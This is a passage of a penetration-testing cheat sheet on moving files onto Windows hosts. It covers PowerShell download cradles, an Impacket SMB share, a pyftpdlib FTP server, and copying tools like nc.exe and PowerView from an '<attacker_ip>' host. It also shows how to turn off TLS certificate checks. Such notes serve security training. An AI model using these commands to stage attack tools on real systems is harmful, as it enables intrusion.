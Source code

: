 Common Issues:
**IE First-Launch Issues:** Add the `-UseBasicParsing` parameter if the Internet Explorer configuration is incomplete.
**SSL/TLS Errors:** Bypass certificate validation with:
```powershell
  [System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}
  ```
#### Invoke-WebRequest
```powershell
Invoke-WebRequest https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 -OutFile PowerView.ps1
```
An extensive list of PowerShell download cradles can be found here
https://gist.github.com/HarmJ0y/bb48307ffa663256e239

### SMB Downloads
#### Setting up an SMB server
  Use `smbserver.py` from Impacket to create an SMB share.
```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare
    ```
#### Copying files
  On a Windows system, copy files using:
```powershell
copy \\<attacker_ip>\share\nc.exe
   ```
#### Authentication
If unauthenticated access is blocked, specify a username and password
  ```bash
sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test
 ```
Mount the SMB share
```powershell
net use n: \\<attacker_ip>\share /user:test test
   ```
   
>[!NOTE]
>You can also mount the SMB server if you receive an error when you use `copy filename \\IP\sharename`.
### FTP Downloads
#### Setting Up an FTP Server
`pyftpdlib` by default uses port 2121 and Anonymous authentication is enabled if we don't set a user and password.
```bash
sudo pip3 install pyftpdlib 
sudo python3 -m pyftpdlib --port 21
```

#### Downloading Files
  With PowerShell’s WebClient:
```powershell
(New-Object Net.WebClient).DownloadFile('ftp://<attacker_ip>/file.txt', 'C:\Users\Public\ftp-file.txt')
```
